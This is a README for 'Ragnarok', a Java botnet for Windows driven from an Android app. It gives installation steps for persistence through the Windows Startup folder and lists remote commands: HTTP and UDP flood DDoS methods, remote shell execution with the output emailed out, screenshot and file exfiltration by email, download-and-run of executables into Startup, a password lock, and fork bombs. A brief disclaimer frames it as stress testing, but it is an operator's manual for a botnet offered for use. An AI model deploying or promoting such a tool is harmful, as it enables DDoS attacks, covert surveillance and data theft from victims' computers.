 # Ragnarok
Java Botnet for Windows (Not released yet)

---EULA---

Ragnarok is a botnet with both fun purpose harmless commands and real ddos capability which can be used to measure ddos resistance on web services by launching attacks from multiple devices.
Ddosing a website without getting permission from its owner is illegal in most of countries.
Installing botnet to school, internet cafe or workplace computers without getting permission is illegal in most of countries.
Using Ragnarok's fun purpose commands on computers that belongs to other people or companies for malicious intent like disabling/locking computer, stealing personal files, executing harmful terminal commands, installing another software/files, watching their screen or causing their browser to visit a harmful website is considered illegal in most of countries.

I dont take any responsibility if you cause any harm with this program so use it at your own risk!

---How To Use---

Step 1: Download Ragnarok app to your Android device from googleplay.

Step 2: Download RagnarokBot.jar from this Github page

Step 3: Copy RagnarokBot.jar to "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\" folder on any windows pc you want to remotely control then make sure you rename it to anything else than RagnarokBot because default name forbidden for creating bot groups. (copying it to startup folder makes windows start it everytime pc turns on)

Step 4: Install Java 8 update 361 (lastest of Java 8) to that pc. Do not install Java versions that came after than Java 8 because they cause massive bugs. You can just download JavaSetup8u361.exe from this Github and use that to install perfect Java version for Ragnarok.

Step 5: Start bot by double clicking that renamed jar file and then open Ragnarok app from your android device and then type name of your jar file to bot name section and press connect.
When you send a command now Ragnarok server will share it with all bots which have same bot name on itself around the world so they will execute that commands so make sure you note what name you used when renaming your jar file.

Step 6: After app says "Connected" you can pick any command from command list then send it to connected bots around the world.
Keep reading to learn about how to modify command arguments.

---How To Send Commands---

Some commands can be sent without any arguments meanwhile some of them require arguments which needs to be seperated with '#' symbol. Arguments bar will be filled with argument template of related command when you select a command so all you need to do is replacing these arguments before sending selected command. Leave arguments bar empty if it comes as empty when you select a command because that means selected command doesnt require any arguments. You can find example command arguments for all available commands below.

---Command List---

HttpFlood;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using http flood method.
Example Command Argument: https://example.com/#5000

UdpFlood;
Arguments: Ip, Threads
Effect: Launches specified number of ddos attacks to given ip/domain by using udp flood method.
Example Command Argument 1: 93.184.216.34#100
Example Command Argument 2: example.com#100

Clusterstorm;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000

I-Mod;
Arguments: Url, Threads, DelayMillisec, PayloadCount
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250#30

Pulsar;
Arguments: Url, Threads, Delay
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250

Lock;
Arguments: password
Effect: prevents target computers from being used until users enter correct password that you set.
Example Command Argument: 123456789

Browse;
Arguments: Url
Effect: Uses default browser to open specified url.
Example Command Argument: https://example.com/

Terminal;
Arguments: CMD
Effect: Executes given terminal command on windows terminal
Example Command Argument: ipconfig

Terminal&Output;
Arguments: CMD, ToEmail
Effect: Executes given terminal command on windows terminal then emails results to given adress.
Example Command Argument: ipconfig#yourmail@gmail.com

Message;
Arguments: Text
Effect: Shows given text on screen.
Example Command Argument: something is in your pc

ChangeDesktopBG;
Arguments: JpgUrl, IntervalMS
Effect: Changes desktop background image with given image from a url in a loop.
Example Command Argument: https://example.com/image.jpg#1000

Screenshot;
Arguments: Count, IntervalMS, ToEmail
Effect: Takes screenshots according to given count and interval then emails them to given adress.
Example Command Argument: 5#10000#yourmail@gmail.com

EmailFile;
Arguments: FilePath, ToEmail, Message
Effect: Picks file according to given path then emails it to given adress with specified message. Uploads file to yandex drive if file is too big to email directly.
Example Command Argument: C:\Users\Admin\Desktop\Document.pdf#yourmail@gmail.com#yay

DownloadFile;
Arguments: Url, FilePath
Effect: Downloads a file from url then puts it to specified location. Downloaded file will be replaced if a file already exists with same name and extension on specified location.
Example Command Argument 1: https://example.com/image.jpg#C:\Users\Admin\Desktop\image.jpg
Example Command Argument 2: https://example.com/someprogram.exe#C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\someprogram.exe

StickyMouse;
Arguments: None
Effect: Mouse cursor wont be able to move far away from its current point.

CrazyMouse;
Arguments: None
Effect: Mouse cursor moves around randomly.

CrazyDrivers;
Arguments: None
Effect: CD/DVD roms will keep opening and closing itself.

CrazyKeyboard;
Arguments: None
Effect: Keyboard will type random stuff constantly. 

BSOD;
Arguments: None
Effect: Creates a fake BSOD effect which can be closed by pressing 'E' key.

ForkBomb;
Arguments: None
Effect: Overloads CPU until pc freezes.

ForkBombUltimate;
Arguments: None
Effect: Same with ForkBomb command but uses different method.

---Things To Remember---

You can have multiple bots with different names on same pc.
There is a chance that somebody else using same bot name with your bot. That will cause his/her commands to be executed by yours too meanwhile your commands will be executed by their botnet too so better prefer some unique names for your jar file (botnet) to have some privacy.
You can copy your bot to any other folder than startup folder and launch it yourself when you need it if you dont want it to auto start when pc turns on.
